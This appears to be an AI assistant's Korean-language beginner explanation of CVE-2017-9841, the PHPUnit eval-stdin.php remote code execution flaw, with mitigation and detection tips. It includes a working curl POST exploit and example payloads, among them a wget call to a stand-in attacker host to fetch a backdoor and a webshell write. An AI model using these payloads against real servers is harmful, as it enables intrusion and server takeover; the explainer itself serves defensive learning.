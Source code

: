 좋아요, **CVE-2017-9841**은 PHP 기반 웹사이트에 발생할 수 있는 **심각한 원격 코드 실행(RCE) 취약점**입니다.
초보자도 이해할 수 있게 아주 **쉽게** 설명해드릴게요.

---

## 🧨 이 취약점 한 줄 요약:

> PHPUnit이 설치된 서버에 **외부에서 악성 코드를 실행**할 수 있는 **문이 열려 있었던 문제**예요.

---

## ✅ 개념 먼저! "PHPUnit"이 뭐야?

**PHPUnit**은 PHP 개발자들이 코드를 테스트할 때 쓰는 **테스트 도구**예요.

* 실제 웹 서비스에는 쓰이지 않지만,
* 개발자가 설치하고, 가끔 실수로 **서버에 그대로 두는 경우**가 있어요.

> 🧱 마치 공사 끝났는데 공구를 치우지 않고 문 앞에 놓고 간 상황이라고 보면 돼요.

---

## ⚠️ 문제 요약 – CVE-2017-9841

PHPUnit에는 `/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php` 라는 파일이 있는데,
이 파일이 **외부에서 PHP 코드를 받아서 그대로 실행**하는 구조였습니다.

### 예를 들어:

```bash
curl -X POST http://example.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php \
     -d '<?php system("id"); ?>'
```

👉 서버는 `system("id");` 라는 PHP 코드를 **그대로 실행**해서 결과를 돌려줘요!

---

## 🎯 공격자가 이걸 이용하면?

* `<?php system("ls"); ?>` → 서버 파일 목록 보기
* `<?php file_put_contents("shell.php", ...); ?>` → 웹셸 업로드
* `<?php exec("wget http://attacker.com/backdoor"); ?>` → 백도어 설치

즉, **공격자가 서버에서 원하는 명령어를 실행**할 수 있게 됩니다.

---

## 🔥 이게 왜 무서움?

| 항목             | 설명                      |
| -------------- | ----------------------- |
| 📂 서버 파일 접근 가능 | 내부 정보 유출                |
| 💣 웹셸 설치       | 서버 완전히 장악               |
| 🛠 백도어 심기      | 계속 침투 가능                |
| 🤐 조용히 악성코드 배포 | 해킹당한 웹사이트 통해 악성코드 유포 가능 |

---

## ❌ 어떤 서버가 위험했나?

* **PHP 기반 웹사이트**
* composer로 설치한 PHPUnit이 **웹 루트에 노출**되어 있을 경우

  ```
  /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
  ```
* 이 파일이 **인터넷에서 접근 가능하면** → 바로 공격 가능

---

## ✅ 대응 방법

| 방법                     | 설명                                |
| ---------------------- | --------------------------------- |
| 해당 파일 삭제               | `eval-stdin.php` 파일을 삭제 또는 차단해야 함 |
| 웹서버에서 `/vendor/` 경로 차단 | Apache/Nginx 설정으로 접근 못하게          |
| 최신 PHPUnit 사용          | 취약점 패치된 버전 사용 (4.8.29 이상 등)       |
| 프로덕션 서버에 테스트 도구 배포 ❌   | 개발 도구는 절대 배포하지 말기                 |

---

## 🔐 실제 점검 팁

서버에서 이런 파일이 있는지 확인해 보세요:

```bash
find /var/www/html -name eval-stdin.php
```

혹은 웹에서 직접 시도:

```
http://example.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

→ 200 OK가 뜬다? **위험한 상태입니다!**

---

## ✅ 요약

| 항목       | 내용                       |
| -------- | ------------------------ |
| 취약점 이름   | CVE-2017-9841            |
| 영향 받는 대상 | PHPUnit을 설치한 PHP 웹서버     |
| 공격 방식    | 원격에서 PHP 코드 실행 (RCE)     |
| 피해 사례    | 웹셸 설치, 백도어, 서버 장악        |
| 대응 방법    | 해당 파일 삭제 또는 차단, 최신 버전 사용 |

---

필요하시면 실제 공격 재현 시나리오나, 방화벽 룰로 차단하는 방법도 알려드릴게요.
